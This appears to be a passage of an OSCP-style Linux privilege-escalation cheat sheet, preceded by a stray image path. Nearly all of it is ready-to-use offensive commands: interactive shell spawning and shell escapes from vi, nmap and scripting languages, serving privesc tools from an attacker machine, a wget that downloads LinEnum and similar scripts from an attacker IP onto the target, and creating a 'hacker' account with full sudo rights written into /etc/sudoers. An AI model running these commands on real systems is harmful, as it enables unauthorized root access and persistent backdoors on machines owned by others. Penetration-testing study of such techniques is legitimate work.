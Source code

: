Less likely

- Private ssh keys
- Bad path configuration
- Cronjobs

### Useful commands

```
# Spawning shell
python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/sh")'
V
Ctrl+Z
stty raw -echo
fg
reset
Ctrl+Z
stty size
stty -rows 48 -columns 120
fg

echo os.system('/bin/bash')
/bin/sh -i
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')
(From within vi)
:!bash
:set shell=/bin/bash:shell
(From within nmap)
!sh

# Access to more binaries
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

# Set up webserver
cd /root/oscp/useful-tools/privesc/linux/privesc-scripts; python -m SimpleHTTPServer 8080

# Download all files
wget http://10.11.1.111:8080/ -r; mv 10.11.1.111:8080 exploits; cd exploits; rm index.html; chmod 700 LinEnum.sh linprivchecker.py unix-privesc-check

./LinEnum.sh -t -k password -r LinEnum.txt
python linprivchecker.py extended
./unix-privesc-check standard

# Writable directories
/tmp
/var/tmp

# Add user to sudoers
useradd hacker
passwd hacker
echo "hacker ALL=(ALL:ALL) ALL" >> /etc/sudoers
```
